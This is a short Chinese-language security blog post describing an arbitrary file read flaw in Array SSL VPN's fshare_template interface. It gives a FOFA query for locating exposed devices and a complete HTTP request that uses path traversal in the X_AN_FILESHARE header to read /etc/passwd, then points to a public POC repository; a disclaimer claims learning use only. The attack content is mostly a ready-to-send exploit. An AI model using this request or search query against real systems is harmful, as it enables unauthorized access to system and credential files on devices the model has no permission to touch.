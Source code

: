#  Array VPN任意文件读取漏洞   
原创 安全透视镜  网络安全透视镜   2023-11-24 07:00  
  
# 一、漏洞描述  
  
****  
Array SSL VPN远程安全接入软件具备远程安全接入网关的全部功能，可以在虚拟化或云环境中提供专业的远程安全访问；它帮助用户实现在任何时间任何地点使用任何设备都可以安全地连接到云上的主机或应用。  
  
Array的 fshare_template 接口存在任意文件读取漏洞  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6TyxiaReKfTY4L4xqz8nwwCd6amcU1rpDuHpQIaCnPia5eT00mBiaLaHLHUxlFPUCZAZZE4Il29yshg/640?wx_fmt=png&from=appmsg "")  
  
# 二、网络空间搜索引擎  
  
  
fofa查询  
```
product="Array-VPN"
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6TyxiaReKfTY4L4xqz8nwwCW9mspJkQnqASialmQKb2g3yfBYhyWicqSEQvAib6u8mZ0ibLCbqpaX30qA/640?wx_fmt=png&from=appmsg "")  
  
# 三、漏洞复现  
  
  
POC  
```
GET /prx/000/http/localhost/client_sec/%00../../../addfolder HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X_AN_FILESHARE: uname=t; password=t; sp_uname=t; flags=c3248;fshare_template=../../../../../../../../etc/passwd
Dnt: 1
Upgrade-Insecure-Requests: 1
Connection: close

```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6TyxiaReKfTY4L4xqz8nwwC4kJ1jpq64JHBveB5sgjYibTbcKcU7gbho6icFvP3kGXmk0mZDsErr3Iw/640?wx_fmt=png&from=appmsg "")  
  
# 四、漏洞检测  
  
  
pocsuite检测  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6TyxiaReKfTY4L4xqz8nwwCELBWib17cf00KkXswuK0NVx08n05DJav7h6ybDyWiaauIWNdA00Br7jA/640?wx_fmt=png&from=appmsg "")  
  
  
漏洞检测脚本已上传免费漏洞库  
  
地址：  
  
https://github.com/Vme18000yuan/FreePOC  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6TyxiaReKfTY4L4xqz8nwwCddo7Rvcs7fhjMEk3gEf0icdpicmYaX0RgAhrLAEWGibj8ekvDnVVyLB6A/640?wx_fmt=png&from=appmsg "")  
  
  
# 免责声明：文章来源互联网收集整理，请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
****  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS51gqsJwIM82Y5RTicXUygDUxQ76EiavrIibm8L0BUzdF6veUR4dQOKJn2iaEFQlNeq0PIPSFXTibx0OZw/640?wx_fmt=png&from=appmsg "")  
  
****  
  
